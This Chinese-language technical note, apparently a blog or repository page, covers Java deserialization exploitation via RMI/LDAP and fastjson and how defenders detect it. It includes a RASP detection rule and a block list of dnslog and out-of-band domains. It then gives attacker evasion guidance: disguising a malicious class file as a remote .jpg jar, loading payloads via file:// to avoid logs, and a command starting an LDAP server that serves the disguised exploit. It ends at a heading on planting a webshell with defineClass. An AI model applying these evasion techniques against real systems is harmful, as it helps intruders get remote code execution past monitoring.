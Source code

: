 ### 反序列化类技术利用不足

* NIDS：通过流量分析RMI、LDAP等协议，阻断请求；dns搜集ceye等其他已知的dnslog平台。拦截对外发出的直连socket请求。
* HIDS：查看java进程进行是否绑定/bin/bash shell；通过分析bash执行内容，感知是否是攻击性异常命令。
* 蜜罐：伪装bash，记录行为，捕获攻击者的具体行为和vps主机ip对应提交到到威胁情报。
* 目标应用程序版本发布升级会使得挂载的.class恶意脚本失效。
* 利用过程的条件
  * RMI、ldap加载的问题在于java 8u121的trustURLCodebase默认关闭。
  * 如果需要多次执行命令，需要更改Exploit里shell命令，再次触发利用多次fastjson等反序列化漏洞，利用成功时日志会有JSONException: set property error, autoCommit，会暴露攻击时间线，
  * shell命令如which、ps -aux等命令容易被监控或替换。
* RASP：查看是否是反序列自动化工具生成的POC来执行的命令，如下面的图表所示。


```java
if (method.startsWith('ysoserial.Pwner')) {
    message = _("Reflected command execution - Using YsoSerial tool")
    break
}
```

rasp也支持拦截对外访问地址。

```java
'.ceye.io','.vcap.me','.xip.name','.xip.io', 'sslip.io','.nip.io', '.burpcollaborator.net', '.tu4.org'
```

### 思路

#### 从http 协议入手

通过rmi、ldap后，可以从其他服务器上加载 class 文件来进行实例化，现在网络上的server端都是要求下载class文件，这里文件特征很明显的以字节码cafebabe开头。解决办法通过将该class通过maven打包为jar文件，然后变更jar文件的后缀即可。或者通过file:////、raw协议直接加载载荷，避免网络端日志的发现。

```java
public Class<?> loadClass(String className, String codebase)
        throws ClassNotFoundException, MalformedURLException {

    ClassLoader parent = getContextClassLoader();
    ClassLoader cl =
             URLClassLoader.newInstance(getUrlArray(codebase), parent);

    return loadClass(className, cl);
}
```

URLClassLoader是ClassLoader的子类，它用于从指向 JAR 文件和目录的 URL 的搜索路径加载类和资源核心变更步骤为：修改LdapServer的codebase启用参数为：

```shell
java LdapServer https://g.cn/2.jpg#Exploit 389
```

其中https://g.cn/2.jpg表示将class打包为jar后伪装的名字，Exploit为该jar里执行payload的类名。这样将RMI、LDAP从远端下载变得更隐蔽了些。

#### defineClass种马

